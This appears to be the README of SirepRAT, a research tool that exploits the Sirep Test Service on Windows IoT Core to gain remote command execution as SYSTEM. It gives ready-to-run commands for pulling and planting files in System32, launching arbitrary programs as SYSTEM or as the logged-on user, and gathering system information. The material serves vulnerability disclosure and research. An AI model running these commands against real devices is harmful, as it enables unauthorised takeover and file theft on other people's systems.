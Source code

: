# SirepRAT - RCE as SYSTEM on Windows IoT Core
**SirepRAT** Features full RAT capabilities without the need of writing a real RAT malware on target.

## Context

The method is exploiting the Sirep Test Service that’s built in and running on the official images offered at Microsoft’s site. This service is the client part of the HLK setup one may build in order to perform driver/hardware tests on the IoT device. It serves the Sirep/WPCon/TShell protocol.

We broke down the Sirep/WPCon protocol and demonstrated how this protocol exposes a remote command interface for attackers, that include RAT abilities such as get/put arbitrary files on arbitrary locations and obtain system information.

Based on the findings we have extracted from this research about the service and protocol, we built a simple python tool that allows exploiting them using the different supported commands. We called it SirepRAT.

It features an easy and intuitive user interface for sending commands to a Windows IoT Core target. It works on any cable-connected device running Windows IoT Core with an official Microsoft image.


## Slides and White Paper

Slides and research White Paper are [**in the docs folder**](https://github.com/SafeBreach-Labs/SirepRAT/tree/master/docs)


## Usage

#### Download File
```bash
python SirepRAT.py 192.168.3.17 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" -v
```

#### Upload File
```bash
python SirepRAT.py 192.168.3.17 PutFileOnDevice --remote_path "C:\Windows\System32\uploaded.txt" --data "Hello IoT world!"
```

#### Run Arbitrary Program
```bash
python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\hostname.exe"
```  
With arguments, impersonated as the currently logged on user:
```bash
python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
```  
(Try to run it without the _as_logged_on_user_ flag to demonstrate the SYSTEM execution capability)

#### Get System Information
```bash
python SirepRAT.py 192.168.3.17 GetSystemInformationFromDevice
```

#### Get File Information
```bash
python SirepRAT.py 192.168.3.17 GetFileInformationFromDevice --remote_path "C:\Windows\System32\ntoskrnl.exe"
```

#### See help for full details:
```bash
python SirepRAT.py --help
```

## Authors

**Dor Azouri** ([@bemikre](https://twitter.com/bemikre))

## License

[BSD 3](https://github.com/SafeBreach-Labs/AltFS/blob/master/LICENSE) - clause "New" or "Revised" License